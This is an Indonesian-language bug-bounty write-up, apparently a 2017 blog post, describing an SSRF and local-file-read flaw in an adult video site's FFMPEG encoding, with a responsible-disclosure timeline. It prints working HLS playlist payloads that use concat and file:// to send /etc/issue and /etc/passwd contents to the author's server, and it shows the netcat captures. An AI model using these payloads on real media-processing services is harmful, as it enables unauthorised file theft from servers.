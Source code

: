 ```yaml
---
layout: post
title: XHamster SSRF Vulnerabillity
date: 2017-08-18 11:55:10 AM
permalink: xhamster-ssrf-vulnerabillity/
author: xhellc0de
category: pentesting
---
```


XHamster merupakan situs streaming video dewasa yang cukup besar. Konten-konten **menarik** pada situs tersebut merupakan kontribusi dari para member XHamster, dengan kata lain, para member *meng-upload* video mereka ke situs tersebut. Bagi para *Bounty Hunter*, fitur *upload* terlihat seperti tambang emas yang siap untuk digali :) Maka dari itu, kami pun tertarik untuk mencoba mencari celah keamanan pada situs XHamster.

Seperti pada situs streaming lainnya, setiap video yang *diupload*, kemungkinan besar *di-encode* terlebih dahulu sebelum kemudian disajikan ke pengunjung. Kebanyakan situs video streaming menggunakan **FFMPEG** untuk *encoding* video pada situs mereka. Maka kami mencoba apakah benar XHamster menggunakan FFMPEG, dan apakah terdapat celah disana.

Pertama kami melakukan pengetesan sederhana dengan mengupload sebuah file video yang telah disisipi *payload* berikut:
```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:1.0,
http://noobsec.org:1337/tes_ssrf
#EXT-X-ENDLIST
```

Setelah itu, *listen* di *server* pada port 1337, dan benar kami muncul *response* dari server XHamster:
```
[xhellc0de@noobsec.org ~]# nc -lv 1337
Connection from 88.208.16.193 port 1337 [tcp/menandmice-dns] accepted
GET /tes_ssrf HTTP/1.1
User-Agent: Lavf/56.x.x
Accept: */*
Connection: close
Host: noobsec.org:1337
Icy-MetaData: 1
```

Melihat dari *response* tersebut, maka kami berasumsi bahwa FFMPEG yang digunakan kemungkinan memiliki celah. Maka kami melanjutkan penetrasi lebih dalam untuk mencoba melihat *file* yang ada di server.

Kami sedikit memodifikasi file video yang akan diupload dan membuat 1 file baru dengan nama **header.m3u8**, dengan isi:

ssrf.avi
```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:1.0,
concat:http://noobsec.org:1337/header.m3u8|file:///etc/issue
#EXT-X-ENDLIST
```

header.m3u8	
```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:,
http://noobsec.org:1337/ssrf_result?
```

Setelah diupload, dan kembali melakukan listen di server, maka muncul *response* seperti berikut:
```
[xhellc0de@noobsec.org ~]# nc -lv 1337
Connection from 88.208.16.193 port 1337 [tcp/menandmice-dns] accepted
GET /ssrf_result?Debian+GNU/Linux+8+\n+\l HTTP/1.1
User-Agent: Lavf/56.x.x
Accept: */*
Connection: close
Host: noobsec.org:1337
Icy-MetaData: 1
```

Dapat dilihat bahwa isi dari *file* /etc/issue adalah: **Debian GNU/Linux 8 \n \l**

Untuk bukti yang lebih kuat, maka kami mencoba untuk melihat file lain yang ada di server XHamster. Dengan sedikit modifikasi pada payload, kami berhasil mengambil isi file /etc/passwd

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
[ redacted ]
messagebus:x:104:107::/var/run/dbus:/bin/false
www:x:999:999::/home/www:/bin/sh
xhamster:x:998:998::/home/xhamster:/bin/sh
[ redacted ]
```

Kami mencoba untuk mengambil isi file-file lain seperti 000-default.conf dan file default lainnya, namun sepertinya XHamster tidak menggunakan default settings, dan kami kesulitan untuk menebak path dari file yang ada pada server mereka.

Untuk itu, kami rasa cukup sejauh ini penetrasi yang dilakukan dan kami langsung menghubungi XHamster terkait isu tersebut.

Timeline:
```
15 Agustus 2017 14:00 : Celah keamanan ditemukan
15 Agustus 2017 15:30 : Celah keamanan dilaporkan ke XHamster
15 Agustus 2017 16:15 : XHamster mengkonfirmasi bahwa celah keamanan tersebut valid
15 Agustus 2017 16:53 : XHamster menyatakan sedang melakukan perbaikan pada celah tersebut
15 Agustus 2017 21:40 : XHamster memberikan reward atas celah yang ditemukan
17 Agustus 2017 10:59 : Celah telah diperbaiki
```
Referensi: https://www.blackhat.com/docs/us-16/materials/us-16-Ermishkin-Viral-Video-Exploiting-Ssrf-In-Video-Converters.pdf

